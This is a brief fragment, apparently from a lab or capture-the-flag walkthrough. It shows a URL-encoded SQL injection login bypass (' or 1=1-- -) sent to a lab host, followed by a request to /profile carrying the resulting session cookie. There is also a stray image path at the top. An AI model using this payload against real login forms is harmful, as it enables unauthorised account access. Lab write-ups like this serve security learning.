  ```http
 email=%27+or+1%3D1--+-&password=
 ```

![admin](admin.png)

```http
GET /profile HTTP/1.1
Host: 10.10.11.130
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=.eJw1yz0KgDAMBtC7fHMRXDN5E4kkjYX-QNNO4t3t4v7egzN29RsUObsGaOGUQWApqR7WmhgX9e0eFwKSgPaA3MxUUgWNPlearr0u9j-8Hz1GHgw.YvnWQQ.F7k5U05YRrNwVDXbh3CkIFNPWRM

Upgrade-Insecure-Requests: 1
```
